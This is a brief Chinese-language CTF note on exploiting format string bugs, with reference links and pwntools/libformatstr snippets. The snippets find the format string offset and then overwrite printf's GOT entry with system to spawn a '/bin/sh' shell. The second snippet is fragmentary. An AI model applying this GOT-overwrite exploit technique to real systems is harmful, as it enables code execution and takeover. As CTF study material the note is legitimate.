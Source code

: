 ﻿# 格式化字符串
## CTF中格式化字符串漏洞快速利用
>https://www.anquanke.com/post/id/147666
>
>https://bbs.pediy.com/thread-253638.htm
>
>https://www.anquanke.com/post/id/85785
>
>https://www.cnblogs.com/Yable/p/7895732.html

## 关键利用代码

### 计算偏移以填充(使用libformatstr)

```
#target program:print_test
from libformatstr import *
from pwn import *
from binascii import *
context.log_level = 'debug'
bufsiz = 100
elf=ELF('./print_test')                    #test length
bufsiz = 100
r = process('./print_test')
r.sendline(make_pattern(bufsiz))             # send cyclic pattern to
data = r.recv()                                 # server's response
offset, padding = guess_argnum(data, bufsiz)    # find format string offset and padding
log.info("offset : " + str(offset))#偏移
log.info("padding: " + str(padding))#填充
```

### 覆盖got表代码

```
system_plt = elf.plt["system"]
printf_got = elf.got["printf"]
 
payload = fmtstr_payload(7, {printf_got:system_plt})    #关键函数
sleep(1)
io.sendline("/bin/sh\x00")
```
